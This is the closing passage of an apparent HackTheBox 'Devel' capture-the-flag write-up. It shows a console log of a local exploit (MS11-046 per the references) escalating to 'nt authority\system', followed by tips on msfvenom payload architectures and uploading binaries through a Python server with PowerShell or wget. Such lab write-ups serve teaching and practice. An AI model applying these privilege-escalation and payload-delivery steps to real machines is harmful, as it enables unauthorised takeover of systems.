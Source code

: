 ```
c:\Users\Public\Downloads>exploit.exe
exploit.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

As we got access as "nt authority\system" we can read both the user and root flags easily.

## Key Points to Take Away

1. When creating `msfvenom` payloads, test both x86 and x64 payloads.
2. If you get an error that program can't be executed, try to upload it via some other means (using python server with powershell/wget is the best way)

## References

1. [Devel](https://app.hackthebox.com/machines/Devel)
2. [MS11-046](https://www.exploit-db.com/exploits/40564)